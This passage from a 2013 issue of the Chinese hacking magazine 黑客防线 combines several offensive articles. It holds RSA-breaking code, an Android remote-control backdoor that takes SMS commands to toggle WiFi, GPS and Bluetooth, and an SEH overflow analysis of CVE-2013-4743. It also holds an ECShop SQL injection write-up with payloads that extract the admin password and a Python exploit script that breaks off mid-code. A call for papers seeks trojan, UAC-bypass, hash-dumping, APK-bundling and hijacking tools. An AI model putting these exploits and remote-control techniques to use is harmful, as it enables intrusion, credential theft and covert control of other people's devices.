            print(" >>>> factory success with p,q = ")
            p = a+b[0]
            q = a-b[0]
            break
    else:
        print(" >> step 2 failure")
    a += 1


```

我们来看看分解的时间，几乎是秒解。很明显，p 和 q 分解后，剩下的工作都是手部劳动了，只要利用 p 与 q 两素数重新计算 d 就可以了，结果如图 4 所示。
图 4

```python
eu_n = (p-1)*(q-1)
d = hex((gmpy.gcdext(eu_n, e)[2]) % n)   # 根据 RSA 算法，e、d 必须比 n 小

Show time: (In iPython)
In [81]:
d=0x455a8aad0457a07b7cccbebea1ee8420da3089ca3c4fc88d0b0520ee49381028981b58b4678662fc4cf78bb23e619437452f0c818f415793eba5a4669df3672b053b350024bf5f5d4c20be90bf041c81bbdcbb7d4d586bcd8cca41d8f05bc7bcd83ac4dcb6fb90b403e9c0f44d9391393aa4947d7dc529b4a7c2b1791f98f92761cb321150466fabbd784d7de20c63dedbc6ac224e0bc00ef7835dd4e01d70ad990e9cbdb7cb2ef192642e559e1c0b22601c6bbbd59781bd1b587bbba2da6a22f3f2dc28fde10c2525fe23082f272c7ec7f3fcb5
In [82]: e=0x10001
In [83]:
n=0x59b7f3a0a6bd10811b05473deb94ae35f84163652e408372ab86cdcb24f21873603ce29059cc9f261b1d5b7cb02221deedc8eb289c8086f797b5bd0be456c249962fecf9faf9846eb91be1ca17234b4e981fb0bc58d2dd97b7124014a0d10a876a57b2dd8a9d9b8ce95998143aa009fa91657864f819883a31d53fcf30d517ded93aae7895a44bf1576d0aa1694f50481504e184b499ad7805974a910a0e31f080eeea700504a8606b0c888f728a543f944334cc72dcb1b1402471c2e7473dbc0ff2743928df51daf2fa3b954c76b4ff95510df1
In [84]: pow(pow(20, e, n), d, n) == 20    # 测试看看密钥对是否工作正常
Out[84]: True
In [96]: pow(pow(2000, e, n), d, n) == 2000  # 再测试看看
Out[96]: True
```

```python
In [98]:
cipher = open('/tmp/enc.txt', 'r').read()
In [99]: msg = pow(msg, d, n)              # decoding
In [100]: pow(msg, e, n) == cipher
Out[100]: True            # done
```

## 共模攻击

第三种攻击方法利用的是 RSA 双方通信使用相同模数作为公钥所导致的问题。本攻击方法所使用的示例文件 crypto200.7z 可在 http://goo.gl/Tfg9F 下载。

压缩包中包含两个 pubkey 文件，n 值相同，一个加密文件 correction.7z，及其生成的两个加密后的文件 ciphertext1 和 ciphertext2。接下来我们稍微进行一下推导：

```text
C1 ≡ m^e1 mod n
C2 ≡ m^e2 mod n
C1 * C2 ≡ (m^e1) * (m^e2) mod n
C1 * C2 ≡ m^(e1 + e2) mod n
```

这里我们仍然不能直接求出 m，由于 m^(e1+e2) 可能比 n 大，RSA 算法计算时必须对比 n 大的进行分段，所以我们该想如何让 xe1+ye2=1，以使 m 比 n 小。

数论基础中的 gcd 用于求两数的最大公约数。而 egcd(gmpy.gcdext) 是 gcd 的拓展，调用 gmpy.gcdext(x, y) 将返回一个三元组 (g, s, t)，进而推导出 gcd(x, y)=s*x + t*y = 1（当 x、y 为素数时候，gcd(x, y) ≡ 1）。有了 gcdext，我们就能让 s*x+t*y 实现上面的推导了。

```text
# from: http://v0ids3curity.blogspot.kr
C2 ≡ m^e2 mod(n)
C1^s * C2^t = [(m^e1)^s * (m^e2)^t] mod(n)
C1^s * C2^t = [m^(s*e1 + t*e2)] mod(n)
C1^s * C2^t = m mod n
```

其中的 C1、C2、s、t、n 都是我们所知的，因此推出明文 m 仅需要一步：(C1^-1)^s * C2^t ≡ m mod n。

利用 Python 编写的代码如下，结果如图 5 所示。

```python
valist = gmpy.gcdext(e1, e2)
x, y = -valist[1], valist[2]
c1 = gmpy.invert(c1, n)
c1b = pow((c1 % n), x, n)
c2b = pow((c2 % n), y, n)


```
图 5

需要注意的是，由于 `gmpy.gcdext` 求出的其中一个值必为负数，而在 gmpy 中无法求负数幂，因此我们需要对其中一个值取反，然后把 `c1` 取一次反。

关于对 RSA 进行攻击的方法，本文就介绍到这里了，其中涉及到比较多的数学知识，需要认真理解消化。

（完）

### Android 远程监控系统设计之传感器控制

文 / 秦妮

通过前面文章的学习，相信大家已经对这款 Android 远程控制软件的开发模式比较熟悉了，只要在第一节的框架上增加功能就可以写出一款功能强大的远控工具，第二节也向大家介绍了增加功能的一般流程，接下来的工作就是逐一为该远控增加功能。

本文增加的功能是对 Android 系统中传感器设备进行控制，比较常见的传感器包括 WIFI 设备传感器、GPS 设备传感器、蓝牙设备传感器。通过编写代码来实现使用短信指令对上述传感器开关进行远程控制。

首先是增加指令代码。  
WIFI 开关指令代码设计如下：

```java
if(message.toLowerCase().contains("kaiqiwifi")){
    wifi(true);
}
if(message.toLowerCase().contains("guanbiwifi")){
    wifi(false);
}
```

GPS 开关指令代码设计如下：

```java
if(message.toLowerCase().contains("kaiqigps")){
    gps(true);
}
if(message.toLowerCase().contains("guanbigps")){
    gps(false);
}
```

蓝牙开关指令代码设计如下：

```java
if(message.toLowerCase().contains("kaiqibluetooth")){
    bluetooth(true);
}
if(message.toLowerCase().contains("guanbibluetooth")){
    bluetooth(false);
}
```

下面完成上述指令中调用的功能函数。首先是 WIFI 函数，功能及代码比较简单，WIFI 功能主要是通过系统服务来实现的，调用 WIFI 管理器对其开关进行控制。

```java
private void wifi(Boolean value){
    WifiManager wifiM = (WifiManager) this.getSystemService(Context.WIFI_SERVICE);
    wifiM.setWifiEnabled(value);
}
```

### Android 远程监控技术

GPS 功能主要是通过系统 Intent 进行实现的，创建一个 Intent 来调用 GPS，然后通过发送广播对其进行控制。

```java
private void gps(Boolean value){
    Intent intent = new Intent("android.location.GPS_ENABLED_CHANGE");
    intent.putExtra("enabled", value);
    sendBroadcast(intent);
}
```

蓝牙功能是通过专用的蓝牙适配相关函数进行控制的。详细代码如下：

```java
private void bluetooth(Boolean value){
    BluetoothAdapter bluetoothA = BluetoothAdapter.getDefaultAdapter();
    if(value){
        if(!bluetoothA.isEnabled()) bluetoothA.enable();
    } else {
        if(bluetoothA.isEnabled()) bluetoothA.disable();
    }
}
```

有了指令代码及功能实现代码后，剩下的就是最后一步，增加权限了。从功能上我们可以看出需要的权限涉及到三个传感器，需要申请的权限依次有：

```xml
<uses-permission android:name="android.permission.CHANGE_WIFI_STATE"/>
<uses-permission android:name="android.permission.ACCESS_WIFI_STATE"/>
<uses-permission android:name="android.permission.ACCESS_GPS"/>
<uses-permission android:name="android.permission.BLUETOOTH_ADMIN"/>
<uses-permission android:name="android.permission.BLUETOOTH"/>


```

在 AndroidManifest.xml 中增加上述权限后就可以正常编译了，编译通过后会生成 APK 安装包，即可安装到手机中或使用模拟器进行测试。

黑客防线于 2013 年推出新的约稿机制，每期均会推出编辑部特选的选题，涵盖信息安全领域的各个方面。对这些选题有兴趣的读者与作者，可联系投稿信箱：675122680@qq.com、hadefence@gmail.com，或者 QQ：675122680，确定有意的选题。按照要求如期完成稿件者，稿酬按照最高标准发放！特别优秀的稿酬另议。第 8 期的部分选题如下，完整的选题内容请见每月发送的约稿邮件。

## 1. 绕过 Windows UAC 的权限限制

自本期始，黑客防线杂志长期征集有关绕过 Windows UAC 权限限制的文章（已知方法除外）。

- 1) Windows UAC 高权限下，绕过 UAC 提示进入系统的方法；
- 2) Windows UAC 低权限下，进入系统后提高账户权限的方法。

## 2. 木马控制端 IP 地址隐藏

要求：

- 1) 在远程控制配置 server 时，一般情况下控制地址是写入被控端的，当木马样本被捕获分析时，可以分析出控制地址。针对这个问题，研究控制端地址隐藏技术，即使木马样本被捕获，也无法轻易发现木马的控制端真实地址。
- 2) 使用 C 或 C++ 语言，VC6 或者 VC2008 编译工具实现。

## 3. 读取 Windows 系统用户密码的 Hash 值

要求：

- 1) 支持 Windows XP/2003/2008/7/Vista；
- 2) 能读取本机所有用户的 Hash 值，包括域用户的；
- 3) 使用 VC++2008 编译工具编写；
- 4) 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能。

## 4. Web 后台弱口令暴力破解

说明：  
针对国际常用建站系统以及自编写的 WEB 后台无验证码登录形式的后台弱口令账号密码暴力破解。

要求：

- 1) 能够自动或自定义抓取建站系统后台登录验证脚本 URL，如 WordPress、Joomla、Drupal、MetInfo 等常用建站系统；
- 2) 根据抓取提交账号密码的 URL，可自动或自定义选择提交方式，自动或自定义提交登录的参数，这里的自动指的是根据默认字典；
- 3) 可自定义设置暴力破解速度，破解的时候需要显示进度条；
- 4) 高级功能：默认字典跑不出来的后台，可根据设置相应的 GOOGLE、BING 等搜索引擎关键字，智能抓取并分析是否是后台以及自动抓取登录 URL 及其参数；默认字典跑不出来的账号密码可通过 GOOGLE、BING 等搜索引擎抓取目标相关的用户账户、邮箱账户，并以这些账户简单构造爆破账号密码，如用户为 admin，密码可自动填充为域名，用户为 abcd@abcd.com，账户密码就可以设置为 abcd abcd 以及 abcd abcd123 或 abcd abcd123456 等简单账号密码；
- 5) 拓展：尽可能多搜集国外常用建站系统后台来增强该软件查找并定位后台 URL 能力；暴力破解要稳定，后台 URL 字典以及账号密码字典可自定义设置等。

## 5. 编写端口扫描器

要求：

- 1) 扫描出目标机器开放的端口，支持 TCP Connect、SYN、UDP 扫描方式；
- 2) 扫描方式采用多线程，并能设置线程数；
- 3) 将功能编写成 dll，导出功能函数；
- 4) 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 5) 尽量多做出错异常处理，以防程序意外崩溃；
- 6) 使用 VC++2008 编译工具编写；
- 7) 支持系统 Windows XP/2003/2008/7。

## 6. CMD 下向指定 GHO 文件内写入文件

要求：

- 1) 在 CMD 下，无 GUI 界面，向指定的 GHO 文件内写入数据；
- 2) GHO 文件为 XP、Win7 32/64 位的备份；
- 3) 使用环境 XP、Win7 32/64；
- 4) 修改好后，将 GHO 文件的修改时间还原为原来一样的；
- 5) 开发环境 VC。

## 7. Android 下实现 APK 文件捆绑

要求：

- 1) 编写生成器，可以选择两个 APK 文件进行捆绑；
- 2) 生成的文件安装时可以隐藏安装捆绑的 APK；
- 3) 捆绑后的 APK 尽量保持图标无变化；
- 4) 在装有 360 手机卫士的系统中可正常工作。

## 8. 搜索已删除文件

说明：

搜索磁盘中已经删除的文件、文件夹，实现如下功能。

要求：

- 1) 支持 FAT32/NTFS 文件系统；
- 2) 恢复文件名称、路径以及时间等信息；
- 3) 尝试恢复文档类文件，比如 DOC、PDF 等（可选）；
- 4) 使用 C 或 C++ 语言，VC6 或者 VC2008 编译工具实现，程序可以在命令行下运行。

## 9. Android WIFI Tether 数据转储劫持

说明：

WIFI Tether（开源项目）可以在 ROOT 过的 Android 设备上共享移动网络（也就是我们常说的 Wi-Fi 热点），请参照 WIFI Tether 实现一个程序，对流经本机的所有网络数据进行分析存储。

要求：

- 1) 开启 WIFI 热点后，对流经本机的所有网络数据进行存储；
- 2) 不同的网络协议存储为不同的文件，比如 HTTP 协议存储为 HTTP.DAT；
- 3) 针对 HTTP 下载进行劫持，比如用户下载 www.xx.com/abc.zip，软件能拦截此地址并替换 abc.zip 文件。

## 10. Windows7 下 Hook API

要求：

- 1) Ring3 下针对 lsass.exe 进程的 CryptGenKey 函数进行挂钩，跳到自己的函数中，再返回到真实函数；
- 2) 支持 32 位和 64 位 Windows7；
- 3) 使用 VC++2008 编译工具实现，控制台程序；
- 4) 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能。

## 11. 邮箱附件劫持

说明：

编写一个程序，当用户在浏览器上登录邮箱（本地权限），发送邮件时，自动将附件里的文件替换为另外一个文件。

要求：

- 1) 支持 Gmail、Hotmail、Yahoo 新版旧版、163、126；
- 2) 支持 IE 浏览器 6/7/8/9/10，或支持火狐浏览器，或谷歌浏览器。

## 12. 突破 Windows7 UAC

说明：

编写一个程序，绕过 Windows7 UAC 提示，启动另外一个程序，并使这个程序获取到管理员权限。

要求：

- 1) Windows UAC 安全设置为最高级别；
- 2) 系统补丁打到最新；
- 3) 支持 32 位和 64 位系统。

## 2013 征稿启示

《黑客防线》作为一本技术月刊，已经 13 年了。这十多年来基本上形成了一个网络安全技术坎坷发展的主线，陪伴着无数热爱技术、钻研技术、热衷网络安全技术创新的同仁们实现了诸多技术突破。再次感谢所有的读者和作者，希望这份技术杂志可以永远陪你一起走下去。

投稿栏目：

### 首发漏洞

要求原创必须首发，杜绝一切二手资料。主要内容集中在各种 0Day 公布、讨论，欢迎第一手溢出类文章，特别欢迎主流操作系统和网络设备的底层 0Day，稿费从优，可以洽谈深度合作。有深度合作意向者，直接联系总编辑 binsun20000@hotmail.com。

### Android 技术研究

黑防重点栏目，对 Android 系统的攻击、破解、控制等技术的研究。研究方向包括 Android 源代码解析、Android 虚拟机，重点欢迎针对 Android 下杀毒软件机制和系统底层机理研究的技术和成果。

### 本月焦点

针对时下的热点网络安全技术问题展开讨论，或发表自己的技术观点、研究成果，或针对某一技术事件做分析、评测。

### 漏洞攻防

利用系统漏洞、网络协议漏洞进行的渗透、入侵、反渗透、反入侵，包括比较流行的第三方软件和网络设备 0Day 的触发机理，对于国际国内发布的 PoC 进行分析研究，编写并提供优化的 exploit 的思路和过程；同时可针对最新爆发的漏洞进行底层触发、shellcode 分析以及对各种平台的安全机制的研究。

### 脚本攻防

利用脚本系统漏洞进行的注入、提权、渗透；国内外使用率高的脚本系统的 0Day 以及相关防护代码。重点欢迎利用脚本语言缺陷和数据库漏洞配合的注入以及补丁建议；重点欢迎 PHP、JSP 以及 HTML 边界注入的研究和代码实现。

### 工具与免杀

巧妙的免杀技术讨论；针对最新 Anti 杀毒软件、HIPS 等安全防护软件技术的讨论。特别欢迎突破安全防护软件主动防御的技术讨论，以及针对主流杀毒软件文件监控和扫描技术的新型思路对抗，并且欢迎在源代码基础上免杀和专杀的技术论证！最新工具，包括安全工具和黑客工具的新技术分析，以及新的使用技巧的实例讲解。

### 渗透与提权

黑防重点栏目。欢迎非 Windows 系统、非 SQL 数据库以外的主流操作系统的渗透、提权技术讨论，特别欢迎内网渗透、摆渡、提权的技术突破。一切独特的渗透、提权实际例子均在此栏目发表，杜绝任何无亮点技术文章！

### 溢出研究

对各种系统包括应用软件漏洞的详细分析，以及底层触发、shellcode 编写、漏洞模式等。

### 外文精粹

选取国外优秀的网络安全技术文章，进行翻译、讨论。

### 网络安全顾问

我们关注局域网和广域网整体网络防/杀病毒、防渗透体系的建立；ARP 系统的整体防护；较有效的不损失网络资源的防范 DDoS 攻击技术等相关方面的技术文章。

### 搜索引擎优化

主要针对特定关键词在各搜索引擎的综合排名，针对主流搜索引擎的多关键词排名的优化技术。

### 密界寻踪

关于算法、完全破解、硬件级加解密的技术讨论和病毒分析、虚拟机设计、外挂开发、调试及逆向分析技术的深入研究。

### 编程解析

各种安全软件和黑客软件的编程技术探讨；底层驱动、网络协议、进程的加载与控制技术探讨和 virus 高级应用技术编写；以及漏洞利用的关键代码解析和测试。重点欢迎 C/C++/ASM 自主开发独特工具的开源讨论。

### 投稿格式要求

- 1) 技术分析来稿一律使用 Word 编排，将图片插入文章中适当的位置，并明确标注“图 1”“图 2”；
- 2) 在稿件末尾请注明您的账户名、银行账号以及开户地址，包括你的真实姓名、准确的邮寄地址和邮编、QQ 或者 MSN、邮箱、常用的笔名等，方便我们发放稿费。
- 3) 投稿方式和周期：  
  采用 E-Mail 方式投稿，投稿 mail：hadefence@gmail.com、QQ：675122680。投稿后，稿件录用情况将于 1～3 个工作日内回复，请作者留意查看。每月 10 日前投稿将有机会发表在下月杂志上，10 日后将放到下下月杂志，请作者朋友注意，确认在下一期也没使用者，可以另投他处。限于人力，未采用的恕不退稿，请自留底稿。

**重点提示：**严禁一稿两投。无论什么原因，如果出现重稿——与别的杂志重复——与别的网站重复，将会扣发稿费，从此不再录用该作者稿件。

- 4) 稿费发放周期：  
  稿费当月发放，稿费从优。欢迎更多的专业技术人员加入到这个行列。
- 5) 根据稿件质量，分为一等、二等、三等稿件，稿费标准如下：

| 稿件等级 | 稿费 |
| --- | --- |
| 一等稿件 | 900 元/篇 |
| 二等稿件 | 600 元/篇 |
| 三等稿件 | 300 元/篇 |

- 6) 稿费发放办法：  
  银行卡发放，支持境内各大银行借记卡，不支持信用卡。
- 7) 投稿信箱及编辑联系  
  投稿信箱：hadefence@gmail.com  
  编辑 QQ：675122680

# 《黑客防线》8期文章目录

总第 152 期 2013 年

### 漏洞攻防

- CVE-2013-4743 本地缓冲区溢出漏洞分析（木羊）....................2
- ECShop 二次注入利用分析（花开、若相惜）.........................5

### 编程解析

- 多线程暴力破解 SSH 和 FTP 登录密码（DebugMe）....................15
- Linux 后门技术研究之 ping 后门（Blackcool）.......................21
- 已删除文件树构建及文件恢复实践（倪程）............................22
- 编程实现 Windows 用户密码 Hash 值的抓取（仲夏）....................27
- Windows 的缓冲区溢出（王晓松）....................................31
- 简单修改内核实现对本地提权的监控与阻断（unity）....................36
- Linux 下懒人的 Shellcode 生成方法（unity）........................39

### 网络安全顾问

- 升级配置无线路由保安全（黄健）....................................42

- 2013 年第 9 期杂志特约选题征稿....................................51
- 2013 年征稿启示....................................................55

### CVE-2013-4743 本地缓冲区溢出漏洞分析

文/图 木羊

CVE-2013-4743 漏洞是针对 Static HTTP Server 1.0 版的本地缓冲区溢出漏洞。由于以后可能还会分享更多带编号的漏洞分析，为免产生困惑，所以先在这里说明漏洞的编号规律。

以 CVE-2013-4743 为例，CVE 意味着 Common Vulnerabilities and Exposures，是一个非常知名的漏洞数据库，中间的 2013 表示年份，4743 表示该漏洞是当年的第几号漏洞。当然，除了 CVE 漏洞数据库，还有其它的漏洞数据库，譬如 OSVDB（Open Sourced Vulnerability Database）。同一个漏洞在不同数据库中的编号不同，譬如 CVE-2013-4743 在 OSVDB 中的编号就为 OSVDB-94717。可以看出，常见的漏洞编号均以所属的漏洞数据库的英文开头。如果是微软发布的产品漏洞，则是以“MS”开头，形如 MS13-056，意思是 2013 年的第 56 号漏洞。

说完了编号，我们再更具体地了解 CVE-2013-4743。OSVDB 对它的描述原文为 “Static HTTP Server contains an overflow condition that is triggered as user-supplied input is not properly validated when handling multiple HTTP commands or headers. This may allow a remote attacker to cause a buffer overflow, resulting in a denial of service or potentially allowing the execution of arbitrary code”。简而言之，OSVDB 认为它是一个远程（Remote）缓冲区溢出漏洞，可在处理 HTTP 请求时触发。这里我要说，虽然 OSVDB 的名气远比我大，不过对这个漏洞的理解是值得商榷的。

OSVDB 在漏洞介绍里引用了 EDB-26520，EDB 全名 Exploit Database，是一个面向 Exploit 的漏洞数据库。EDB-26520 对漏洞的描述为 “SEH Overflow”，所给出的 Exploit 也与 OSVDB 描述相矛盾。我认为 EDB 的描述是准确的，原因请听我细细道来。

### 配置文件引发的腥风血雨

形如 *.ini 的配置文件常见得有点不起眼，可谁能想到配置文件也能引发缓冲区溢出？Static HTTP Server 的作者肯定是没想到，所以在读取配置文件 http.ini 时，完全没做防护措施。

首先看看读取配置文件时的堆栈截图，如图 1 所示。读取文件的动作只需要下断 ReadFile 就能看到，不过断下来要看哪里呢？不同目标的看点不同，既然这里是缓冲区溢出，我们关注一下缓冲区好了。看清楚缓冲区的位置是 0x11B0050。缓冲区溢出通常说明缓冲区的大小超过了合法的大小，所以我们再看一眼缓冲区的大小，是 0x200。
图 1

根据惯例，接下来我们是不是要翻一翻，从缓冲区的开头（0x11B0050）到缓冲区的结尾（注意是 0x11B024F），中间有没有函数返回地址？答：不可能有。这个大小为 0x200 的缓冲区是系统主动分配的堆地址，不会有任何我们想要的内容。

### 柳暗花明的二次复制

每一个成功的缓冲区溢出，背后往往站着一个顾此失彼的二次复制。有时候我们甚至奇怪，每每就当我们绝望，准备承认缓冲区内没有可以利用的地方时，作者突然来了个二次复制，像是特地在暗夜里点亮一盏明灯，让我们重拾希望。为什么作者要对缓冲区做二次复制呢？难道真的是为缓冲区溢出留后路？其实问题反过来想，就不难理解了。作者需要缓冲区来读取数据，但接下来往往还需要解析读取的数据。就以配置文件 http.ini 为例，里面有 http_utip、http_ubip、max_http_connections 等各种各样的配置项，不但需要读取这些配置项，还需要使用些配置项，既然要使用，自然就得进行二次复制，也就是用某个数据结构保存某个需要的配置项的值。这里我们暂且管它叫赋值。

Http.ini 配置文件的赋值工作，由以下代码完成：

```asm
0040B2B5  |>  /8B06         mov   eax, dword ptr [esi]
0040B2B7  |.  |8B40 04      mov   eax, dword ptr [eax+4]
0040B2BA  |.  |8B4C30 04    mov   ecx, dword ptr [eax+esi+4]
0040B2BE  |.  E8 7C060000   call  0040B93F                ; 读取
0040B2C3  |.  |83F8 FF      cmp   eax, -1
0040B2C6  |.  |74 22        je    short 0040B2EA          ; 0040B2EA
0040B2C8  |.  |3B45 10      cmp   eax, dword ptr [ebp+10]
0040B2CB  |.  |74 3F        je    short 0040B30C          ; 0040B30C
0040B2CD  |.  |85DB         test  ebx, ebx
0040B2CF  |.  |74 03        je    short 0040B2D4          ; 0040B2D4
0040B2D1  >|.  |88041F      mov   byte ptr [edi+ebx], al
0040B2D4  |>  |8B06         mov   eax, dword ptr [esi]
0040B2D6  |.  |8B40 04      mov   eax, dword ptr [eax+4]
0040B2D9  |.  |8B4C30 04    mov   ecx, dword ptr [eax+esi+4]
0040B2DD  E8 24060000      call 0040B906            ; 移动读取指针
0040B2E2  47               inc  edi
0040B2E3  3B7D 0C          cmp  edi, dword ptr [ebp+C]
0040B2E6  72 CD            jb   short 0040B2B5       ; 0040B2B5
```

赋值的实际操作发生在 0x0040B2D1，通过 mov 指令循环向以 EBX 为基地址，以 EDI 为偏移的内存地址填写 1B 数据，数据的内容保存在 AL 中。AL 的值由分别位于 0x0040B906 和 0x0040B93F 的两个函数，前者负责移动读取指针，后者负责读取内存并将值保存至 AL。要找到赋值数据的源头，就需要分析移动指针的方法，代码如下：

```asm
0040B939  40               inc  eax
0040B93A  8946 28          mov  dword ptr [esi+28], eax


```

指针地址在 esi+28，指向内存地址 0x011B288，值为 0x11B0050，正是刚才 ReadFile 的缓冲区起始地址，如图 2 所示。
图 2

既然我们知道了赋值数据的来龙，现在只需要搞清去脉，也就是赋值的目标地址。刚才已经分析了，目标地址保存在 EBX 中，值为 0x0012EC54。也就是说，从 0x0012EC54 开始的内存地址，因为二次复制而成为我们可以利用的第二片缓冲区。还有第三片缓冲区，复制代码如下：

```asm
004072D5  80FA 09          cmp  dl, 9
004072D8  74 17            je   short 004072F1       ; 004072F1
004072DA  80FA 3D          cmp  dl, 3D
004072DD  74 12            je   short 004072F1       ; 004072F1
004072DF  3BC1             cmp  eax, ecx
004072E1  7D 0E            jge  short 004072F1       ; 004072F1
004072E3  88141F           mov  byte ptr [edi+ebx], dl
004072E6  8A5430 01        mov  dl, byte ptr [eax+esi+1]
004072EA  47               inc  edi
004072EB  40               inc  eax
004072EC  80FA 20          cmp  dl, 20
004072EF  75 E4            jnz  short 004072D5       ; 004072D5
```

这里直接使用了两个 `mov` 来执行读取原始地址的数据和填写目标地址数据的复制操作。在这一段代码中，原始地址起始为 0x0012EC54，目标地址起始为 0x0012FDDC，最大可以覆盖至 0x12FF42。

### 无需返回地址的栈溢出

一般的栈溢出，通常是靠保存在栈中的缓冲区数据淹没同样保存在栈中的函数返回地址，从而让 Shellcode 获得控制权。栈中还有另一样可以起同样效果的好东西，那就是 SEH（结构异常处理）。SEH 有点类似我们的扁桃体，设计初衷本来是处理异常，结果某些时候反而会导致异常。

SEH 机制简单来说，就是用一条链表将所有的异常处理函数串起来，链表的每个节点包含两个地址，一个是下一个 SEH 节点的地址，也即链表的 Next 指针，另一个则是本节点保存的异常处理函数的地址。当发生异常的时候，系统会遍历这条链表，直到找到某一个函数可以处理当前的异常。既然包含有“函数地址”，那么不难猜到利用原理和返回地址类似。

我们能够控制的栈地址中是否存在某个 SEH 节点呢？有一个 SEH 节点在 0x12FF3C，正好落到我们第三片缓冲区的辖区里，如图 3 所示。

| 地址 | SEH 处理程序 |
|---|---|
| 0012E860 | ntdll.77AA71AD |
| 0012FF3C | httpd.00401D9E |

图 3

到这里，CVE-2013-4743 漏洞就分析完了，从过程不难看出，这并不是一个远程溢出漏洞，而是利用本地的配置文件完成栈溢出，利用难度偏大，需要配合一个文件上传漏洞，完成替换配置文件的工作才能生效。

### ECShop 二次注入利用分析

文/图 花开、若相惜（huakai.paxmac.org）

ECShop 是一款 B2C 独立网店系统，适合企业及个人快速构建个性化网上商店。该系统基于 PHP 语言及 MYSQL 数据库构架开发的跨平台开源程序，目前最新版本为 2.7.3。

最近乌云爆出了 2 次注入，之后我对他提出的 2 个二次注入的漏洞进行了分析，发现第一个注入并不是那么好利用，也没给出 POC，另一个二次注入则给出了 POC。

第一个漏洞的细节可见 <http://www.wooyun.org/bugs/wooyun-2013-026458>，这个漏洞我就不分析了，直接给出利用 exp。

```text
/wholesale.php?step=act=add_to_cart
act_id=1&goods_number[1][0]=100&attr_id[1][0][0][attr_id]=120&attr_id[1][0][0][attr_val_id]=0&attr_id[1][0][0][attr_name]= a') and 1=2 union select password from ecs_admin_user where user_id=1 #
```

第二个漏洞的细节见 <http://www.wooyun.org/bugs/wooyun-2013-026421>，此漏洞还可以直接修改商品价格，对电商影响还是很大的。

```php
function spec_price($spec)
{
    if (!empty($spec))
    {
        $where = db_create_in($spec, 'goods_attr_id');
        $sql = 'SELECT SUM(attr_price) AS attr_price FROM ' . $GLOBALS['ecs']->table('goods_attr') . " WHERE $where";
        $price = floatval($GLOBALS['db']->getOne($sql));
    }
}

function db_create_in($item_list, $field_name = '')
{
    if (empty($item_list))
    {
        return $field_name . " IN ('') ";
    }
    else
    {
        if (!is_array($item_list))
        {
            $item_list = explode(',', $item_list);
        }
        $item_list = array_unique($item_list);
        $item_list_tmp = '';
        foreach ($item_list AS $item)
        {
            if ($item !== '')
            {
                $item_list_tmp .= $item_list_tmp ? ", '$item'" : "'$item'";
            }
        }
        if (empty($item_list_tmp))
        {
            // ...
        }
    }
}
```

```php
return $field_name . " IN ('') ";
}
else
{
    return $field_name . ' IN (' . $item_list_tmp . ') ';
}
}
}
```

在这 2 个函数中，$spec 是可控的，但由于 db_create_in 函数的存在，导致了带逗号的 SQL 语句都不能使用。经过与 flyh4t 的激烈讨论，得到了几个可取的方法。

```php
//如果需要加入规格价格
if ($is_spec_price)
{
    if (!empty($spec))
    {
        $spec_price   = spec_price($spec);
        $final_price += $spec_price;
    }
}
```

由上面代码可以看到，最终的价格会输出在页面，这样就不需要盲注了。完整的 SQL 语句如下，结果如图 1 所示。

```sql
SELECT SUM(attr_price) AS attr_price FROM
`ecshop2.7.3`.`ecs_goods_attr` WHERE goods_attr_id IN ('238','237') and 1=2
union select password from ecs_admin_user where password like 'e%'


```
图 1

但结果发现 NULL 在第一位，导致 price 价格也为 null，此时我们可以用降序语句进行排序。

```sql
SELECT SUM(attr_price) AS attr_price FROM
`ecshop2.7.3`.`ecs_goods_attr` WHERE goods_attr_id IN ('238','237') and 1=2
union select password from ecs_admin_user where password like 'e%' order
by attr_price desc
```

为了能够与数字相加，password 用 hex 表示。

```sql
237') and 1=2 union select hex(password) from ecs_admin_user where
password like 'e%' order by attr_price desc
```

但这个效率也太低了，当然，我们也可以用 regex 来加快注入速度。

```sql
237') and 1=2 union select password from ecs_admin_user where user_id=1
and password REGEXP '^[a-z]' order by user_id desc


```

不过仍然不太让人满意，我想更加快点，然后就有了下面的各种折腾。思路是这样的，通过 hex(password) 来与原有的价格相加，得到的差值可以还原出原先的字符。当初是直接 hex(password) 后相加，发现字符达到最大值“溢出”了，如图 2 所示。
图 2

```php
<?php
$a=0x6531663739623465626137646161396130363639356564616264343238623233;
$x=0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff;
$res=$a/$x;
echo $res;
$res=dechex($res);
//会输出 65


```

通过这种逐位提取，可以达到注入出字符的效果。16 进制理解起来可能稍显麻烦，这里以 10 进制举例说明。比如 635098 div 10000，用 MySQL 的 div 或者 floor 函数取下限，防止 4 舍 5 入，得到 63；635098 mod 630000 取余，得到 5098，再继续取前 2 位，如此类推（其实直接取 3 或者 4 位也可以）。PHP 下测试没问题，但是 MySQL 上测试却出现问题了，字符太长，导致数据不准，算是个 bug，如图 3 所示。
图3

本来还以为这条路又行不通了，但是无意间又找到了希望，翻资料翻到了 substring 还能这样用，如图4所示。
图4

现在问题都解决了，就差 EXP 了。要写出高效的 EXP，先要解决维持 Cookie 会话的问题。我用 requests 模块的 `s = requests.Session()` 解决。还有正则提取关键数据的问题，由于想写得自动化点，其中遇到了各种调试、各种代码重构。

首先需要安装 requests 模块（http://docs.python-requests.org/en/latest/），我也是第一次使用这模块，发现还挺好用的。下面简单介绍下模块的使用，比如文章中用到的 `s = requests.Session()` 保持会话，以及 `r = requests.get("http://huakai.paxmac.org")`、`r = requests.post("http://huakai.paxmac.org")`、`r = requests.put("http://huakai.paxmac.org")`、`r = requests.options("http://huakai.paxmac.org")` 等提交方式，用来写 Webdav 的 IIS 写权限漏洞很方便；`r.encoding='utf-8'` 还能改变输出的编码，`r.text` 显示返回的内容。更多详细的内容，可以到 http://docs.python-requests.org/en/latest/ 查看。

```python
# -*- coding: cp936 -*-
#/usr/bin/env python
#code by 花开、若相惜
import urllib2, cookielib, requests
import re, binascii
"""
ecshop 二次注入
blog:huakai.paxmac.org
email:huakai@paxmac.org
"""
attackurl = raw_input("输入漏洞网站：")

def postdata(url, data="", regex=""):
    r = s.post(url, data)
    result = r.text
    if regex != "":
        reg = re.findall(regex, result)
        if reg:
            return result, reg[0]
    else:
        return result

def infomation(url):
    global spec, goods, price
    goods = re.findall(r'id=(\d{1,5})', url)
    spec = postdata(url, regex=r"spec_value_(\d{1,10})")

def sqlinjection(sql):
    post_data = {"goods": """{"quick":1,"spec":["%s","%s"],"goods_id":%s,"number":"1","parent":0}"""
    % (spec[1], sql, goods[0])}
    url = attackurl + "/flow.php?step=add_to_cart"
    price = postdata(url, post_data, regex=ur"总计金额\s\S(\d{1,10})")

